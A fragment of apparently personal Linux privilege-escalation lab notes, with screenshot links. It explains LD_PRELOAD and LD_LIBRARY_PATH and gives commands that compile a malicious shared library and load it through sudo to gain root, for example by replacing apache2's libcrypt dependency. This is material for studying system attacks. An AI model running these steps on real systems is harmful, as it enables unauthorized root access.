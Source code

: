 

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

![image-20200814212004606](linuxPrivesc.assets/image-20200814212004606.png)

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

sudo LD_PRELOAD=/tmp/preload.so any-program-with-sudo-privileges
```







dependies that apache2 depends on

![image-20200814212720541](linuxPrivesc.assets/image-20200814212720541.png)

```bash
ldd /usr/sbin/apache2

gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2
```





## cronjobs
